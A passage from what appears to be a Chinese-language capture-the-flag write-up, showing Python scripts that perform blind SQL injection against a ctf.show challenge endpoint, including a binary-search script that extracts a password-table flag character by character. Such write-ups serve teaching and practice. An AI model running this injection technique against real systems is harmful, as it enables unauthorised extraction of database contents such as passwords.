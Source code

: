 ```python
        print(result)
        i = 0
        j = j+1

    if i == 128:
        break

print(result)
```

好家伙，自增脚本结果也是废了一小段时间才跑出来。

那就再写一个二分法脚本：

```python
# @Author:yanmie

import requests

url = "http://d273060e-9119-43c3-9737-acf668088663.chall.ctf.show/api/v4.php?id=1' and "

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0"
}

i = 0
result = ""

while True:
    head = 0
    tail = 127
    i += 1

    while head<tail:
        mid = (head+tail)//2   # 除以2取整
        payload = "ascii(substr((select password from ctfshow_user4 where username ='flag'),{i},1))>{mid}--+"
        payload  = payload.format(i=i,mid=mid)
        # print(url+payload)
        response = requests.get(url=url+payload,headers=headers)
        # print(response.text)
        if "admin" in response.text:
            head = mid+1
        else:
            tail = mid

    if head == 32:
        break
    result += chr(head)
    print(result)

print(result)
```
